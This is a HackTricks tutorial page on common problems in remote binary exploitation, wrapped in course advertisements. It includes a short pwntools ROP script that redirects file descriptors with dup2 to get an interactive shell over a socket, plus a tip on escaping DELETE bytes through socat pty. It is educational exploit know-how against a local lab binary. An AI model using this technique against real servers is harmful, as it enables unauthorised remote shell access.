 # Common Exploiting Problems

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## FDs in Remote Exploitation

When sending an exploit to a remote server that calls **`system('/bin/sh')`** for example, this will be executed in the server process ofc, and `/bin/sh` will expect input from stdin (FD: `0`) and will print the output in stdout and stderr (FDs `1` and `2`). So the attacker won't be able to interact with the shell.

A way to fix this is to suppose that when the server started it created the **FD number `3`** (for listening) and that then, your connection is going to be in the **FD number `4`**. Therefore, it's possible to use the syscall **`dup2`** to duplicate the stdin (FD 0) and the stdout (FD 1) in the FD 4 (the one of the connection of the attacker) so it'll make feasible to contact the shell once it's executed.

[**Exploit example from here**](https://ir0nstone.gitbook.io/notes/types/stack/exploiting-over-sockets/exploit):

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

rop = ROP(elf)
rop.raw('A' * 40)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.win()

p.sendline(rop.chain())
p.recvuntil('Thanks!\x00')
p.interactive()
```

## Socat & pty

Note that socat already transfers **`stdin`** and **`stdout`** to the socket. However, the `pty` mode **include DELETE characters**. So, if you send a `\x7f` ( `DELETE` -)it will **delete the previous character** of your exploit.

In order to bypass this the **escape character `\x16` must be prepended to any `\x7f` sent.**

**Here you can** [**find an example of this behaviour**](https://ir0nstone.gitbook.io/hackthebox/challenges/pwn/dream-diary-chapter-1/unlink-exploit)**.**

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
